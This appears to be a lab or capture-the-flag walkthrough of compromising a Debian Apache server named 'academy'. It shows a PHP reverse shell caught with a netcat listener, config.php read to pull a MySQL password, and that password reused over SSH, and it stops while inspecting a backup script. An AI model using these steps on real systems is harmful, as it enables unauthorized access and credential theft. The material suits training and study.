 ### Reverse Shell
Knowing that this is an Apache server, we can assume that PHP is running the backend. Additionally, we can see that php files are being referenced in the URLs.

PHP *executes on the server*, so whatever PHP is capable of doing, we can leverage to execute a [rev shell](cybersecurity/TTPs/exploitation/rev-shell.md). An easy PHP shell for us to use is [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentest monkey. Copy and paste the code, change the hostname and port values, and make sure [netcat](cybersecurity/tools/netcat.md) is listening on the port.
```bash
nc -lvnp 44444
listening on [any] 44444 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 51562
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 16:48:43 up 11:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                Thu13   24:46m  0.04s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
$ www-data
```
## Privilege Escalation
You've entered the machine as `www-data` who does not have a lot of permissions. However, with some snooping, we find a lot of tasty files w/i our reach in the. Specifically in `/var/www/html/includes` we find `config.php`. Let's cat that:
```bash
$ cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
```
*We've found Grimmie's password!* This is specifically for mysql but we know that *Grimmie uses the same password for everything*. So let's try escalating our privilege by [SSH](networking/protocols/SSH.md)ing in as Grimmie:
```bash
ssh grimmie@10.0.2.15
grimmie@10.0.2.15''s password: My_V3ryS3cur3_P4ss
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct  5 20:45:41 2023 from 10.0.2.4
grimmie@academy:~$  # <--- we in
```
## Grimmie
Now that we're logged in as Grimmie, let's see what they have in their home dir.
```bash
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
```